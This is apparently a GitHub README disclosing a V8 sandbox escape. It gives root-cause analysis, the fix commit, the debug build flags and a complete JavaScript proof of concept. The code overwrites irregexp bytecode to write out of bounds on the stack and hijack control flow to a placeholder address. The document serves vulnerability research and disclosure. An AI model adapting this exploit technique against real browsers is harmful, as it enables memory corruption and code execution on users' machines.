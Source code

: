 # V8 Sandbox escape

## RCA

Issue: 330404819

When attacker have the ability of oob read and write, they can modify `data` in regexp, in which stores bytecode. In `IrregexpInterpreter::Result RawMatch` function, it just read bytecode and execute. 

Also, registers located on stack and has no check of boundarys (Only DCHECK). By modifying bytecode, it's possible to create an rop chain via oob write.

This was fixed in commit `b9349d97fd44aec615307c9d00697152da95a66a`.



## Reproduce

The `exp.js` works with debug build of commit `1fd3f98c07afc527a68ee15a9e0d6869defec2a9`.

build flags:

```
is_debug = true
v8_static_library = true
target_cpu = "x64"
v8_enable_sandbox = true
v8_enable_memory_corruption_api=true
```

Use `--sandbox-fuzzing` to enable `Sandbox` at runtime.

The exploit uses `push` and `pop` bytecodes for copying registers, `set` for adding constants on stack and `advance` for calculations.

Poc here hijacks control flow to `0x4141414141414141`, which can be verified via gdb since `--sandbox-fuzzing` will ignore memory violation issues. This should function effectively on other builds, as the offset has been consistently observed to remain unchanged.

```js
// Flags:  --sandbox-fuzzing
let s = "aaaaa";

var sbxMemView = new Sandbox.MemoryView(0, 0xfffffff8);
var addrOf = (o) => Sandbox.getAddressOf(o);

var dv = new DataView(sbxMemView);

var readHeap4 = (offset) => dv.getUint32(offset, true);
var readHeap8 = (offset) => dv.getBigUint64(offset, true);

var writeHeap1 = (offset, value) => dv.setUint8(offset, value, true);
var writeHeap4 = (offset, value) => dv.setUint32(offset, value, true);
var writeHeap8 = (offset, value) => dv.setBigUint64(offset, value, true);

var regex = /[a-zA-Z0-9]*[a-zA-Z0-9]*[a-zA-Z0-9]*[a-zA-Z0-9]*[a-zA-Z0-9]*[a-zA-Z0-9]*/g;
let addr_regex = addrOf(regex);
let data_addr = readHeap4(addr_regex + 0xc);

regex.exec(s);
let bytecode = readHeap4(data_addr + 0x1b);
writeHeap4(data_addr + 0x2f, 2);

let arr = [];

function set_reg(idx, value) {
    arr.push((idx << 8) & 0xffffff00 | 0x08);
    arr.push(value);
}

function success() {
    arr.push(0x0000000e);
}

let idx = 0x52;
set_reg(idx++,0x41414141);
set_reg(idx++,0x41414141);
success();

for (var i = 0; i < arr.length; i++) {
    writeHeap4(bytecode + 0x7 + 4 * i, arr[i]);
}

regex.exec(s);
```
